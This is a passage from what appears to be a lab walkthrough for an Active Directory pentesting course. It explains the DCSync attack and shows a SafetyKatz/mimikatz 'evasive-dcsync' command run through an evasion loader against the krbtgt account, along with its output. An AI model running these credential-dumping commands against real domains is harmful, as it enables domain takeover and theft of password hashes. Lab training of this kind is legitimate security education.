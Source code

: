 ```
```

**Since we have domain admin privileges, we can perform a DCSync attack** to extract NTLM hashes and Kerberos keys directly from the Domain Controller.

DCSync is an attack that **abuses the Active Directory replication feature**. Normally, only Domain Controllers have the ability to replicate credentials, but accounts with specific replication permissions, such as **members of Domain Admins, Enterprise Admins, or accounts with the `Replicating Directory Changes All` permission**, can request and retrieve password hashes of all domain users, including `krbtgt`.

Since our user (`svcadmin`) is a domain administrator, it already has the necessary replication privileges, allowing us to perform the attack without modifying ACLs.

Run the below command **from process running as domain admin on the student VM**.

`exit`

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x15a746a

Cached Tickets: (4)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/13/2025 1:49:43 (local)
        End Time:   2/13/2025 11:49:43 (local)
        Renew Time: 2/20/2025 1:49:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

[SNIP]
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\krbtgt📌
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 9:59:41 PM
```